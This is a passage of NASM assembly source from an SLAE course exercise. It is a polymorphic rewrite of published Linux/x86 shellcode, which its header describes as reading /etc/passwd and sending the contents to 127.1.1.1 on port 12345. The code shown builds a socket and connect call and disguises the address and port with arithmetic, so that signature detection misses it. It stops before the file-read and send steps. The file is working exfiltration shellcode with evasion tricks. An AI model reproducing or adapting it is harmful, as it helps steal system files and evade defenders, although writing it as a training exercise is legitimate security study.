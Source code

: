 ```nasm
; Title 	: SLAE Linux/x86 - Assignment-6.4
; Description	: Polymorphic version of Linux/x86 - reads /etc/passwd and sends the content to 127.1.1.1 port 12345 - 111 bytes by Daniel Sauder
; Original 	: http://shell-storm.org/shellcode/files/shellcode-861.php
; Author	: Rizal Muhammed (UB3RSiCK)
; Student ID	: SLAE 933
; Shellcode Len.: 128 Bytes (~15.3% increase in shellcode size)
;
; nasm -f elf32 shellcode-861-poly.nasm -o shellcode-861-poly.o
; ld shellcode-861-poly.o -o shellcode-861-poly -z execstack


section .text
global _start
_start:
    	; socket
	push BYTE 0x66    ; socketcall 102
	pop eax

	;xor ebx, ebx 
    	;inc ebx 
	push byte 0x1
	pop ebx

    	;xor edx, edx
    	;push edx 
	cdq
	push edx
	
   	push BYTE 0x1
	push BYTE 0x2

	;mov ecx, esp
	push esp
	pop ecx

    	int 0x80

    	;mov esi, eax
	push eax
	pop esi

    	; connect
    	push BYTE 0x66 
    	pop eax
    	inc ebx

    	;push DWORD 0x0101017f  ;127.1.1.1
	mov edx, 0x01010101
	add edx,0x7e
	push edx

    	;push WORD 0x3930  ; Port 12345
	add dx, 0x37b1		; dx = 0x017f ; 0x37b1 + 0x017f = 0x3930
	push word dx

    	push WORD bx
    	mov ecx, esp
    	push BYTE 16
    	push ecx
    	push esi
    	mov ecx, esp
    	inc ebx
```
